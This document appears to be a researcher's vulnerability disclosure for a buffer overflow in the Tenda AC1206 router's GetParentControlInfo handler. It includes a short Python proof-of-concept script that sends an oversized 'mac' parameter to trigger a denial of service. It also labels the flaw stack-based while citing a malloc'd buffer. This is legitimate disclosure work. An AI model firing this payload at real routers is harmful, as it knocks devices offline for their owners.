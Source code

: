 # Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC1206 (AC1206V1.0RTL_V15.03.06.23)
## Overview
A stack-based buffer overflow vulnerability exists in the Tenda Wi-Fi 5 Router AC1206 device running firmware version AC1206V1.0RTL_V15.03.06.23. Due to the lack of restrictions on certain parameters and the absence of boundary checks in the `GetParentControlInfo` function, a stack overflow may occur. Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through parameters in this endpoint.`/goform/GetParentControlInfo` `initWebs` `formDefineTendDa`

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd.
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
+ **Affected Product**: Tenda Wi-Fi 5 Router AC1206 Device
+ **Affected Version**: AC1206V1.0RTL_V15.03.06.23
+ **Attack Vector**: Exploiting carefully crafted payloads to cause a stack-based buffer overflow via functions with no boundary checks and insufficient parameter restrictions
+ **Impact**:
    - Denial of Service (DoS)
+ **Affected Component**: `/goform/GetParentControlInfo`, `initWebs`, `formDefineTendDa`
+ **CVE ID**: Pending (CVE application in progress)
+ **Discovered by**: xxricardoxkk (xxricardoxkk@gmail.com)
+ **Firmware**: [https://www.tenda.com.cn/material/show/2766](https://www.tenda.com.cn/material/show/2766)

## Discovery
The vulnerability was discovered by analyzing the firmware (US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.bin). The following call chain exists in the `squashfs-root/bin/httpd` file:  
`main → initWebs → formDefineTendDa → GetParentControlInfo`

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC1206/image/%E8%B0%83%E7%94%A8%E9%93%BE4.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC1206/image/%E8%B0%83%E7%94%A8%E9%93%BE3.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC1206/image/%E8%B0%83%E7%94%A8%E9%93%BE2.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC1206/image/formdefinetenda.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC1206/image/%E8%B0%83%E7%94%A8%E9%93%BE1.png)

The program retrieves the user input parameter "mac". The `strcpy` function in the figure below copies content from `mac_addr` to `pc_info->mac_addr` without checking the size of the target buffer. `pc_info = (parent_control_info *)malloc(0x254u);` where 0x254 is 596 bytes. If the length of `mac_addr` exceeds the buffer of `pc_info->mac_addr`, an overflow will occur.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC1206/image/%E6%BA%A2%E5%87%BA%E7%82%B9.png)

Therefore, a carefully designed payload at the interface path `/goform/GetParentControlInfo` can cause a buffer overflow.

## Steps to Reproduce
Construct the following payload using Python:

```python
import requests

# 构造溢出载荷
def create_payload():
    buffer_size = 512000
    payload = b"A" * buffer_size
    v11_value = b"\xef\xbe\xad\xde"
    payload += v11_value
    return payload

# 构造 HTTP 请求并发送
def send_payload(url, payload):
    params = {'mac': payload}
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    print("Response status code:", response.status_code)
    print("Response body:", response.text)

if __name__ == "__main__":
    # 目标 URL
    url = "http://192.168.31.12/goform/GetParentControlInfo"
    # 创建恶意载荷
    payload = create_payload()
    # 发送恶意请求
    send_payload(url, payload)
```

Use QEMU to emulate the `httpd` extracted from `US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.bin` (note that this file is for the MIPS little-endian architecture, and IDA needs to be used to modify `httpd` to adapt to the emulation environment).

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC1206/image/mips%E5%B0%8F%E7%AB%AF%E4%BF%AE%E6%94%B9.png)

As shown in the figure below, the emulation is successful.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC1206/image/payload%26%E4%BB%BF%E7%9C%9F.png)

Use this script to trigger the stack overflow.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC1206/image/%E8%BF%90%E8%A1%8C%E8%84%9A%E6%9C%AC%E8%A7%A6%E5%8F%91%E6%A0%88%E6%BA%A2%E5%87%BA.png)

## Impact
Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through parameters in this endpoint.


